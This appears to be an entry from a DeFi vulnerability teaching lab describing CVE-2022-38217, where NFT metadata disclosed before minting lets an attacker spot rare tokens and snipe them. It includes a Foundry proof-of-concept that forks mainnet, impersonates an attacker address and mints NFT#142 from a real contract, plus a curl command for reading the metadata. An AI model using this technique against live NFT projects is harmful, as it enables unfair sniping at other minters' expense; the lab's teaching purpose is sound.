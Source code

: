 # NFT Mint via Exposed Metadata  
[NFTMint_exposedMetadata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/NFTMint_exposedMetadata.sol)  
**Name:** NFT Mint via Exposed Metadata Vulnerability

**Description:**  
The contract is vulnerable to CVE-2022-38217, this could lead to the early disclosure of metadata of all NFTs in the project.
As a result, attacker can find out valuable NFTs and then target mint of specific NFTs by monitoring mempool and sell the NFTs for a profit in secondary market.

The issue is the metadata should be visible after the minting is completed

**REF:**

https://twitter.com/Supremacy_CA/status/1596176732729769985

https://medium.com/@Supremacy_Official/evilreveal-cve-2022-38217-a-nuclear-weapon-level-generic-vulnerability-buried-under-the-nft-5112724dabb

**Contract:**  
```
contract ContractTest is DSTest {
    IFantasticWeslie nftContract =
        IFantasticWeslie(0xf6FFBa463e46087FcdC3a51391bB675B0e2C1a40); // Fantastic Weslie

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    bytes32[] merkleTreeProof;

    function setUp() public {
        cheats.createSelectFork("mainnet", 16023847);
    }
}
```
**How to Test:**

forge test --contracts src/test/**NFTMint_exposedMetadata.sol**-vvvv  
```
function testExploit() public {
        //Since the contract is vulnerable to CVE-2022-38217
        //it could lead to the early disclosure of metadata of all NFTs in the project
        //As a result, attacker can find out valuable NFTs and then target mint specified NFTs by monitoring Mempool and sell the NFTs for a profit in secondary market

        //For example, Lets assume the attacker finds out that NFT#142 is a rare NFT, now he just has to moniter the mempool till NFT#141 is minted and then mint NFT#142
        //View Metadata of the NFTs via cURL -> curl -k https://bafybeic23x4v75z7isyqhy5p6ylzqutm6lnpobwngaouovdu6qjjvt4wpu.ipfs.dweb.link/142.json
        //The issue is the metadata should be visible after the minting is completed

        //etherscan tx - 0xfa4434236d2a9717e3410d7cdc60eed6acfddb054f58bc779c07349a1f45ce6b
        //etherscan tx - 0x24af97355f6cec4ae02fff8bbf7144a02857e3ffd36a650aa295c62f6272cc83

        address attacker = 0x1fCebBb5D3EACd26e70b0BD1E54a979a479906aA;
        cheats.prank(attacker);

        merkleTreeProof.push(
            0x0ea49bae9ab4f8b82fb0e0b5e876576c9a4a945edc2fa5a7b448fad470802ae6
        );
        merkleTreeProof.push(
            0x852233af3700b87dc51f6abf53d4f935746d746d84a33d4d7e6302d9c110fedd
        );
        merkleTreeProof.push(
            0x5de513269badb3a0b73e237a9f28f86994791f4421effd1865df975a0f8ee52c
        );
        merkleTreeProof.push(
            0xe52d780f15394a8f6254f328ca06a66909c41f1ee3adab33d02cd087f8c37604
        );
        merkleTreeProof.push(
            0xede88505e4259ab482a1019cc8d4364cf9e1e7866768245854c0f6e369d2b08c
        );
        merkleTreeProof.push(
            0x776fee48d9285a8e2d1ecde47354e9ebe91b10f0b5f2d754968af831a7047808
        );
        merkleTreeProof.push(
            0x3d13c4757d9e35123b8785040c29f232483941fb7d591b1a94167c1ca5e8875f
        );
        merkleTreeProof.push(
            0xc36c091c358833709f1b6f44e783e5d9ad5ad9f5f0ee09a37c376fd354827fb1
        );
        merkleTreeProof.push(
            0xce26991b2af9fc0fb807aea36667d37439ae7122d3ea8edcbfe92b04bf674922
        );
        merkleTreeProof.push(
            0x8452c207732923a758c53fb296f3d88340a04fe9c381c73ba44343a45340953e
        );
        merkleTreeProof.push(
            0xcc44822b3b5a19839899f6795622daff3bab327895558977ea58a30a42c6a49e
        );
        merkleTreeProof.push(
            0x45c575962e5a88b5e8c3aedf4e3e74306d0124f4cc86c25bc4cd1bcae16c54a0
        );

        nftContract.mint{value: 0.12 ether}(merkleTreeProof);

        console.log("Owner of NFT#142 : ", nftContract.ownerOf(142));
    }
```
![Alt text](image-24.png)


